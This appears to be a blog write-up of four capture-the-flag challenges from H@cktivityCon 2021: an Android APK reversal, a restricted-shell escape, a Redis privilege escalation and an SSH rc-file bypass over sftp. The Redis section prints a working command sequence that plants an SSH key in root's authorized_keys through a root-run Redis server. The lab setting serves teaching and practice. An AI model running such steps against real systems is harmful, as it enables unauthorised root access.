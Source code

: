 +++
title = "H@cktivityCon 2021 CTF Writeup"
date = "2021-09-18"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["CTF"]
keywords = ["", ""]
description = ""
showFullContent = false
toc = true
images = ["/img/hacktivitycon-2021/hacktivity.jpeg"]
+++

<!--more-->
{{< image src="/img/hacktivitycon-2021/hacktivity.jpeg" alt="" position="center" style="border-radius: 8px;" >}}

## Introduction

H@cktivityCon 2021 was happening over the weekend and I participated in their ctf with team [@fr334aks](https://twitter.com/fr334aks). We managed position 49 out of 2527 teams.
This writeup is of the challenges I managed to solve.

## Challenges

### 1. Mobile: To Do

Challenge Description:

{{< image src="/img/hacktivitycon-2021/to-do-1.png" alt="" position="center" style="border-radius: 8px;" >}}

We are provided with an apk file. First thing I typically do with apk files is open them with jadx-gui. 

```sh
jadx-gui todo.apk
```

Here I first look at the AndroidManifest.xml to see the application entry point. 

{{< image src="/img/hacktivitycon-2021/to-do-2.png" alt="" position="center" style="border-radius: 8px;" >}}

For this app it's LoginActivity. It checks if the input provided is equal to `testtest` and if true it goes on to load MainActivity.

{{< image src="/img/hacktivitycon-2021/to-do-3.png" alt="" position="center" style="border-radius: 8px;" >}}

When we install the application and supply the password as `testtest` we get the flag.

{{< image src="/img/hacktivitycon-2021/to-do-5.png" alt="" position="center" style="border-radius: 8px;" >}}

{{< image src="/img/hacktivitycon-2021/to-do-6.png" alt="" position="center" style="border-radius: 8px;" >}}

Unfortunately I couldn't copy it out and typing it would have been a pain. Back on the MainActivity we see it loads MyDatabase.

{{< image src="/img/hacktivitycon-2021/to-do-4.png" alt="" position="center" style="border-radius: 8px;" >}}

When we look at MyDatabase, it loads an sqlite database `todos.db`. A lot of the times sqlitedb database in android apps are stored within
the apk.

{{< image src="/img/hacktivitycon-2021/to-do-7.png" alt="" position="center" style="border-radius: 8px;" >}}

Extracting the apk using apktool I was able to access the sqlitedb and extract the flag.

{{< image src="/img/hacktivitycon-2021/to-do-8.png" alt="" position="center" style="border-radius: 8px;" >}}

### 2. Miscellaneous: Shelle 

Challenge Description:

{{< image src="/img/hacktivitycon-2021/shelle-1.png" alt="" position="center" style="border-radius: 8px;" >}}

When we connect to the challenge, we get access to a restricted shell with only a few commands we can run.

{{< image src="/img/hacktivitycon-2021/shelle-2.png" alt="" position="center" style="border-radius: 8px;" >}}

When we read the assignment, we are told the flag is in the /opt directory.

{{< image src="/img/hacktivitycon-2021/shelle-3.png" alt="" position="center" style="border-radius: 8px;" >}}

Unfortunately we can't access it.

{{< image src="/img/hacktivitycon-2021/shelle-4.png" alt="" position="center" style="border-radius: 8px;" >}}

Next I tried to see if we can access any environment variables and see if the `$` character is forbidden as well.
Luckily this works.

{{< image src="/img/hacktivitycon-2021/shelle-5.png" alt="" position="center" style="border-radius: 8px;" >}}

I then ran `set` to list all environment variables. Looking through the list I saw one set to bash.

{{< image src="/img/hacktivitycon-2021/shelle-6.png" alt="" position="center" style="border-radius: 8px;" >}}

I was able to use it to escape the restricted shell and read the flag.

{{< image src="/img/hacktivitycon-2021/shelle-7.png" alt="" position="center" style="border-radius: 8px;" >}}

### 3. Miscellaneous: Redlike

Challenge Description:

{{< image src="/img/hacktivitycon-2021/redlike-1.png" alt="" position="center" style="border-radius: 8px;" >}}

After sshing into the challenge machine, I performed some local enumeration and when checking for running processes
we see redis running locally as root. Clearly this is the privesc path.

{{< image src="/img/hacktivitycon-2021/redlike-2.png" alt="" position="center" style="border-radius: 8px;" >}}

I immediately jumped to [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#ssh) and used the below commands to escalate privileges.

```sh
ssh-keygen -f redis

(echo -e "\n\n"; cat redis.pub; echo -e "\n\n") > spaced_key.txt

cat spaced_key.txt | redis-cli -h 127.0.0.1 -x set ssh_key

redis-cli -h 127.0.0.1

config set dir /root/.ssh

config set dbfilename "authorized_keys"

save

chmod 600 redis

ssh -i redis root@127.0.0.1
```

{{< image src="/img/hacktivitycon-2021/redlike-3.png" alt="" position="center" style="border-radius: 8px;" >}}

### 4. Miscellaneous: Race Car

Challenge Description:

{{< image src="/img/hacktivitycon-2021/racecar-1.png" alt="" position="center" style="border-radius: 8px;" >}}

I enjoyed this one as I was the second to solve it.

When we ssh into the challenge machine, the session is immediately closed when we provide the password.

{{< image src="/img/hacktivitycon-2021/racecar-2.png" alt="" position="center" style="border-radius: 8px;" >}}

I tried different techniques I knew for restricted shell bypass with ssh but none worked. I got an idea to use sftp and 
see what configuration files could be causing this behaviour.

With sftp we are not kicked out and can look at files. Two files seem to be of interest but only `rc` in .ssh has contents.

{{< image src="/img/hacktivitycon-2021/racecar-3.png" alt="" position="center" style="border-radius: 8px;" >}}

The rc file is the one responsible for getting us kicked out. I tried deleting it but that didn't work. However, since we have write 
permissions, I was able to overwrite it by uploading an empty file with the same name.

Once that was done we can ssh and get the flag.

{{< image src="/img/hacktivitycon-2021/racecar-4.png" alt="" position="center" style="border-radius: 8px;" >}}


## Conclusion

Thanks HackerOne, John Hammond and the CTF challenge creators, it was a fun one!
